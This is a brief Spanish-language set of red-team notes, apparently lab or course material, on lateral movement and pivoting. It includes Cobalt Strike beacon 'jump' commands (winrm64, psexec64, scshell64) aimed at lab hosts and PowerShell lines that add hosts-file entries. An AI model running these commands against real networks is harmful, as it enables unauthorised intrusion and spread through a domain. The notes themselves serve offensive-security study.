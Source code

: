 
## Movimieto Lateral

### WINRM
> Compruebo puerto activo

```powershell
netstat -ano | findstr 5985
```

> Realizo el salto

```powershell
beacon> jump winrm64 lon-ws-1 smb

beacon> jump psexec64 lon-ws-1 smb
```

## Mayor OPSEC

```powershell
Importa el .cna de SCshell

beacon> jump scshell64 lon-ws-1 smb
```

## Pivoting

- Añades las entradas al **/etc/hosts** local tuyo, *ADMIN POWERSHELL*
```powershell
Add-Content -Path C:\Windows\System32\drivers\etc\hosts -Value '10.10.120.1 lon-dc-1'
Add-Content -Path C:\Windows\System32\drivers\etc\hosts -Value '10.10.120.10 lon-ws-1'
```

